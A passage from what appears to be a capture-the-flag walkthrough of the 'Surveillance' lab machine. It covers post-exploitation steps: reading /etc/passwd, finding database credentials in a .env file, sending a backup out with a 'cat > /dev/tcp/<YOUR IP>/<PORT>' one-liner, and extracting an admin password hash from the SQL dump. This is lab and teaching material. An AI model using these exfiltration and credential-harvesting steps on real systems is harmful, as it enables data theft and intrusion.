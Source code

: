 # Access as matthew

Let's see the users that have a shell in this machine:

```plaintext
www-data@surveillance:~/html/craft$ cat /etc/passwd | grep "sh$"
root:x:0:0:root:/root:/bin/bash
matthew:x:1000:1000:,,,:/home/matthew:/bin/bash
zoneminder:x:1001:1001:,,,:/home/zoneminder:/bin/bash
```

Without root, we have matthew and zoneminder.

Now I will search for configuration files in the webroot that has credentials for some user.

In /var/www/html/craft/.env we can see credentials for connection to the MySQL database of the user craftuser. When we access as that user in the database, we see an admin hash but it seems that isn't crackable.

Now if we look in `/var/www/html/craft/storage/backups`, we have a zip, let's transfer it to my machine using `cat [FILE TO TRANSFER] > /dev/tcp/<YOUR IP>/<YOUR LISTENING PORT>`.

![Transfering SQL backup](/assets/images/Surveillance/transfer_sql_backup.png)

Next, I will proceed to unzip it and inspect it:

```plaintext
❯ unzip surveillance_backup.zip
Archive:  surveillance_backup.zip
  inflating: surveillance--2023-10-17-202801--v4.4.14.sql  
❯ file surveillance--2023-10-17-202801--v4.4.14.sql
surveillance--2023-10-17-202801--v4.4.14.sql: ASCII text
```

Let's grep for the command "INSERT INTO" to see which values are inserted in the tables and see if we can retrieve some hash of some user:

```plaintext
❯ cat surveillance--2023-10-17-202801--v4.4.14.sql | grep "INSERT INTO"
<SNIP>
INSERT INTO `users` VALUES (1,NULL,1,0,0,0,1,'admin','Matthew B','Matthew','B','admin@surveillance.htb','39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec','2023-10-17 20:22:34',NULL,NULL,NULL,'2023-10-11 18:58:57',NULL,1,NULL,NULL,NULL,0,'2023-10-17 20:27:46','2023-10-11 17:57:16','2023-10-17 20:27:46');
<SNIP>
```
